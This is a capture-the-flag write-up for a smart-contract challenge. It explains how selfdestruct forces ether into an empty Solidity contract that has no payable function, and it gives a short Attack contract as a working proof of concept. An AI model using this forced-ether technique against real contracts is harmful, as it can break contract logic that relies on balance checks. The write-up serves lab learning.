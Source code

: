 **Description**

In this challenge, we are presented with a contract that has neither a fallback function nor a receive function; in fact,  the contract does not have any code in its body whatsoever, The challenge is to send ether to this contract, as we know that for a smart contract written in Solidity to receive ether, it requires the payable modifier on the function; without it, the EVM will throw an error.If plain ether is sent to a contract, the fallback function handles the transaction. Its default behavior is to throw to prevent accidentally sending ether to a contract. Any transaction that sends ether to its address will fail without a payable decorator. However, this is misleading since `selfdestruct` moves all the contract's balance to the other contract without triggering the fallback method, and that's exactly what we're going to exploit in this challenge.

* Force.sol
```solidity=
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

**Attack Scenario**

First, after getting a new instance of the `Force` contract and getting the instance's address, we are going to implement a new contract that receives eth and calls `selfdestruct` with the address of the instance in the args; this will force any owned assets into that contract. Let's see what the code looks like:
- **Attack.sol**
```solidity=
pragma solidity 0.8.0;

contract Attack {
    function attackhh() external
    {
        selfdestruct(payable(0xb897C89af48D717adFa5928c687B9091f468c740));
    }
    receive() payable external{}
}
```

Running the `attackhh` function after funding the attack contract will send ETH to the instance's contract without the need of the "fallback" or the `receive` methods.